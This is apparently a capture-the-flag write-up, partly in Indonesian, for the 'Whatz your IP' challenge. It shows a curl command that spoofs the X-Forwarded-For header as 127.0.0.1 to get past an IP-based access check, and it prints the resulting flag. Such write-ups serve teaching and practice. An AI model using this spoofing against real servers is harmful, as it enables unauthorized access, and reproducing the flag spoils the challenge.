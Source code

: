 <h1><b>Whatz your IP</b></h1>
<pre>
<a href="http://hack.bckdr.in:16003/index.php">This</a> challenge is based on a simple kind of authentication. Go get the flag.
</pre>
<h3><b>Solution</b></h3>
<p>Jika kita mencoba request ke URL, maka akan ada pesan "Your IP address is xxx.xxx.xxx.57 Access Denied", yang artinya alamat kita ditolak oleh server,
, disini kita hanya perlu ganti header x-forwarded-for dengan ip 127.0.0.1</p>

```console
root@Python:/home/venom/Downloads# curl --header "X-Forwarded-For: 127.0.0.1" http://hack.bckdr.in:16003/index.php
Your IP address is 127.0.0.1<br>
Access granted. Flag is d025c4ca8e71501df3581d995c9d838801125d16b0468f6b980969d476b2ac55
root@Python:/home/venom/Downloads# 
```
<h3><b>Flag</b></h3>
<pre>
d025c4ca8e71501df3581d995c9d838801125d16b0468f6b980969d476b2ac55
</pre>
